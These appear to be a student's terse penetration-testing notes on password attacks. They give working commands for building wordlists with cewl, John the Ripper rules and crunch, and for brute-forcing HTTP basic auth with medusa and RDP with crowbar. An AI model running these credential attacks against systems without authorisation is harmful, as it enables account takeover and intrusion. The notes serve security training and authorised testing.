

21 - generate wordlist
Dictionnary based attack
- cewl $url
- -m 6 // minium 6 chars
- --lowercase
- add chars based
- sudo nano /etc/john/john.conf
- # Add two numbers to the end of each password
- $[0-9]$[0-9]
- john --wordlist=words --rules --stdout > dict.txt
grep Nanobot mutated.txt
Bruteforce

- crunch 8 8 -t ,@@^^%%%
- // [Capital Letter] [2 x lower case letters] [2 x special chars] [3 x numeric]
- crunch 4 6 0123456789ABCDEF -o crunch.txt
head crunch.txt
- predefined charsets
- crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
HTTP basic auth
- medusa -h
- medusa -h $target -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
Remote Desktop Protocol Attack with Crowbar
- crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1